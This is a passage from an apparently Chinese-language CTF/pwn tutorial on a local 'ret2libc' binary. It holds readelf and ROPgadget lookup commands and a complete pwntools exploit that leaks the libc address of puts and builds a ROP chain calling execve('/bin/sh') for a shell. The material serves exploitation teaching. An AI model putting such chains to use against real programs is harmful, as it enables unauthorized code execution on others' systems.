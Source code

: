 2. `readelf`找`puts`函数偏移地址：`0x809c0`

   `readelf -a libc-2.27.so |grep "puts"`

3. `ROPgadget`找`/bin/sh`地址

   `ROPgadget --binary libc-2.27.so --string "/bin/sh"`

### Exp

```python
from pwn import *

r = process("./ret2libc")

put_offset = 0x809c0


r.recvuntil(": ")
r.send('0x601018')


r.recvuntil("Content: ")
put_addr = int(r.recvuntil("\n")[:-1])  # 0x7ffff7a649c0
print(hex(put_addr))
libc_base = put_addr - put_offset

bin_sh = 0x1b3e9a
pop_rdi = 0x000000000002155f  # pop rdi ; ret
pop_rsi = 0x0000000000023e6a  # pop rsi ; ret
pop_rdx = 0x0000000000001b96  # pop rdx ; ret
pop_rax = 0x00000000000439c8  # pop rax ; ret
syscall = 0x00000000000d2975  # syscall ; ret

r.recvuntil(": ")
p = b'A' * 0x38
p += p64(libc_base + pop_rdi)
p += p64(libc_base + bin_sh)
p += p64(libc_base + pop_rsi)
p += p64(0)
p += p64(libc_base + pop_rdx)
p += p64(0)
p += p64(libc_base + pop_rax)
p += p64(0x3b)
p += p64(libc_base + syscall)
r.send(p)

r.interactive()
```



## Ref.

- [NTUSTISC-pwn基础教程](https://goo.gl/x1vvRf)
- [Pwn 基础：PLT&GOT 表以及延迟绑定机制](https://bbs.pediy.com/thread-257545.htm)

---

[^1]: 是执行到这句`printf("Thank you %s!\n", name);`才跳转到shellcode
[^2]: 这些片段也称为 *gadget*